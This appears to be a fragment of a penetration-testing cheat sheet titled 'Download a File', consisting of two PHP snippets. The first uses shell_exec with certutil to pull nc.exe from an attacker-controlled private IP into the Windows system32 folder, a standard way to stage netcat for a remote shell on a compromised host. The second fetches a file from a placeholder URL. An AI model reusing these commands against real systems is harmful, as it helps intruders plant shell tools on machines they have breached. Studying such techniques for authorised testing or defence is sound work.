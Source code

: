 ## Download a File

```php
<?php echo shell_exec("certutil -urlcache -split -f http://192.168.119.216/nc.exe.txt c:\windows\system32\nc.exe") ?>
```

```php
file_put_contents("Tmpfile.zip", fopen("http://someurl/file.zip", 'r'));
```

